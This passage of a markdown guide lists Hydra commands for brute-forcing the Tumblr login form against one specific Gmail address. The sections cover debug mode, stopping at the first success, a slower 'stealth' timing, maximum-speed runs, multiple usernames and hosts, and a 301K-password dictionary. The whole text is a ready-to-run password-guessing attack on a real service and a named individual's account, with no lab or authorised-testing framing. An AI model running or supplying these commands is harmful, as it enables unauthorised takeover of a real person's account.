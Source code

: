 #### Debug Mode
```bash
hydra -d -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

### 3. Control and Efficiency

#### Stop After First Success
```bash
hydra -t 32 -f -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

#### Stealth Mode (Slower)
```bash
hydra -t 8 -w 2 -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

#### No Delays (Maximum Speed)
```bash
hydra -t 64 -w 0 -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

### 4. Multiple Targets

#### Multiple Usernames
```bash
# Create usernames file
echo "jonscottnelson@gmail.com" > usernames.txt
echo "another@email.com" >> usernames.txt

hydra -t 32 -L usernames.txt -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

#### Multiple Hosts
```bash
# Create targets file
echo "tumblr.com" > targets.txt
echo "www.tumblr.com" >> targets.txt

hydra -t 32 -l jonscottnelson@gmail.com -P comprehensive_final.txt -M targets.txt https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

### 5. Large Dictionary Attacks

#### Ultimate Dictionary (301K passwords)
```bash
hydra -t 64 -l jonscottnelson@gmail.com -P ultimate_dictionary.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect" -o ultimate_results.txt
```
